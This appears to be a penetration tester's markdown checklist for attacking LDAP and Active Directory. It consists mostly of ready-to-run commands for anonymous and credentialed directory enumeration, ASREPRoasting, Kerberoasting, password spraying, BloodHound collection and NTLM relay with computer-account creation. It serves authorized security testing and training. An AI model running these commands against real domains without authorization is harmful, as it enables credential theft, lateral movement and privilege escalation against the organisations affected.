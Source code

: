 # 🧠 LDAP Pentesting Checklist & Commands

## 🎯 What am I realistically expecting to find here?

⭐ After enumerating LDAP (port 389 / 636), I realistically expect to find:

- [ ] List of domain users and groups (sAMAccountName, displayName, description, etc.)
- [ ] Domain structure (OU, CN, DC)
- [ ] Misconfigured permissions or delegation settings
- [ ] Accounts with no passwords or password not required
- [ ] ASREPRoastable or Kerberoastable accounts
- [ ] GMSA (Group Managed Service Accounts)
- [ ] SID history and ACLs for lateral movement
- [ ] Privileged group memberships (e.g. Domain Admins)
- [ ] Password spray or bruteforce possibilities
- [ ] Potential targets for relaying or privilege escalation

---

## ✅ LDAP Anonymous Enumeration (Without Credentials)

- [ ] **Check for Anonymous Bind**

    ```
    ldapsearch -x -H ldap://<IP> -s base "(objectclass=*)"
    ldapsearch -x -H ldap://<IP> -s base namingcontexts
    ```

- [ ] **Full Dump (If Allowed)**

    ```
    ldapsearch -x -H ldap://<IP> -b "DC=domain,DC=local" "(objectClass=*)"
    ldapsearch -x -H ldap://<IP> -b "DC=domain,DC=local" "(&(objectclass=user))" | grep sAMAccountName
    ldapsearch -x -H ldap://<IP> -b "DC=domain,DC=local" "(&(objectclass=group))"
    ```

- [ ] **Extract Users via grep**

    ```
    ldapsearch -h <IP> -x -b "DC=domain,DC=local" -s sub "(&(objectclass=user))" | grep sAMAccountName | cut -f2 -d" "
    ```

- [ ] **Test Accounts (Guest / null / anonymous)**

    ```
    ldapsearch -x -H ldap://<IP> -D "" -w ""
    ldapsearch -x -H ldap://<IP> -D "anonymous" -w ""
    ldapsearch -x -H ldap://<IP> -D "guest" -w ""
    ```

- [ ] **Anonymous windapsearch**

    ```
    python3 windapsearch.py --dc-ip <IP> -u "" -U
    python3 windapsearch.py --dc-ip <IP> -u "" -C
    python3 windapsearch.py --dc-ip <IP> -u "" -G
    python3 windapsearch.py --dc-ip <IP> -u "" --functionality
    ```

- [ ] **Nmap Enumeration**

    ```
    nmap -n -sV --script "ldap* and not brute" <IP>
    ```

---

## ✅ LDAP Enumeration (With Credentials)

- [ ] **windapsearch Basic Enumeration**

    ```
    python3 windapsearch.py --dc-ip <IP> -u 'domain\\user' -p 'password' --da
    python3 windapsearch.py --dc-ip <IP> -u 'domain\\user' -p 'password' -U
    python3 windapsearch.py --dc-ip <IP> -u 'domain\\user' -p 'password' -G
    python3 windapsearch.py --dc-ip <IP> -u 'domain\\user' -p 'password' -C
    ```

- [ ] **Delegation & Exposure**

    ```
    python3 windapsearch.py --dc-ip <IP> -u 'domain\\user' -p 'password' --delegation
    python3 windapsearch.py --dc-ip <IP> -u 'domain\\user' -p 'password' --unconstrained-users
    python3 windapsearch.py --dc-ip <IP> -u 'domain\\user' -p 'password' --trusted-for-delegation
    python3 windapsearch.py --dc-ip <IP> -u 'domain\\user' -p 'password' --password-not-required
    python3 windapsearch.py --dc-ip <IP> -u 'domain\\user' -p 'password' --admin-count
    python3 windapsearch.py --dc-ip <IP> -u 'domain\\user' -p 'password' --gmsa
    python3 windapsearch.py --dc-ip <IP> -u 'domain\\user' -p 'password' --acl
    ```

- [ ] **Trusts and Group Memberships**

    ```
    python3 windapsearch.py --dc-ip <IP> -u 'domain\\user' -p 'password' --group-memberships
    python3 windapsearch.py --dc-ip <IP> -u 'domain\\user' -p 'password' --trusts
    ```

- [ ] **CME / NetExec LDAP**

    ```
    nxc ldap <IP> -u user -p password --users --groups --trusted-for-delegation --password-not-required --admin-count
    cme ldap <IP> -u user -p password -M get-network
    cme ldap <IP> -u user -p password -M laps
    cme ldap <IP> -u user -p password -M maq
    cme ldap <IP> -u user -p password -M daclread
    cme ldap <IP> -u user -p password -M user-desc
    ```

- [ ] **LDAPDomainDump**

    ```
    ldapdomaindump <IP> -u 'domain\\user' -p 'password' --no-json --no-grep -o /tmp/ldapdump
    ```

- [ ] **SID Lookup**

    ```
    lookupsid.py domain.local/user:password@<IP>
    cme ldap <IP> --get-sid
    ```

- [ ] **SharpLDAPMonitor (Windows)**

    ```
    SharpLDAPMonitor.exe /dcip:<IP> /user:domain\\user /pass:password
    ```

---

## ✅ Password Attacks (ASREP / Kerberoasting)

- [ ] **ASREPRoasting**

    ```
    python3 GetNPUsers.py domain.local/user:password -dc-ip <IP> -request
    cme ldap <IP> -u users.txt -p '' --asreproast asrep.out
    ```

- [ ] **Kerberoasting**

    ```
    python3 GetUserSPNs.py domain.local/user:password -dc-ip <IP>
    ```

- [ ] **Password Spraying**

    ```
    cme ldap <IP> -u users.txt -p 'Summer2024!' --no-bruteforce
    ```

---

## ✅ Filters for LDAP (PowerShell or Custom Queries)

- [ ] **Useful LDAP Filters**

    ```
    (userAccountControl:1.2.840.113556.1.4.803:=524288)    # Trusted for Delegation
    (userAccountControl:1.2.840.113556.1.4.803:=2097152)   # Protocol Transition
    (userAccountControl:1.2.840.113556.1.4.803:=32)        # Password Not Required
    (userAccountControl:1.2.840.113556.1.4.803:=4194304)   # ASREPRoastable
    (userAccountControl:1.2.840.113556.1.4.803:=262144)    # Smartcard Required
    (userAccountControl:1.2.840.113556.1.4.803:=65536)     # Password Never Expires
    (userAccountControl:1.2.840.113556.1.4.803:=2)         # Disabled
    ```

- [ ] **PowerShell Example**

    ```powershell
    Get-ADUser -LDAPFilter '(userAccountControl:1.2.840.113556.1.4.803:=4194304)'
    ```

---

## ✅ BloodHound Enumeration

- [ ] **Linux Collection**

    ```
    bloodhound-python -u user -p password -d domain.local -c All --zip -dc <IP>
    ```

- [ ] **Windows PowerShell Collection**

    ```
    Invoke-BloodHound -CollectionMethod All -ZipFileName loot.zip
    ```

---

## ✅ NTLM Relay + Computer Add

- [ ] **NTLMRelay + AddComputer.py**

    ```
    python3 ntlmrelayx.py -t ldap://<IP> --delegate-access
    python3 addcomputer.py -method LDAPS -dc-ip <IP> -computer-name WINDELL -computer-pass 'W1nd@ll!' domain.local/user:password
    ```
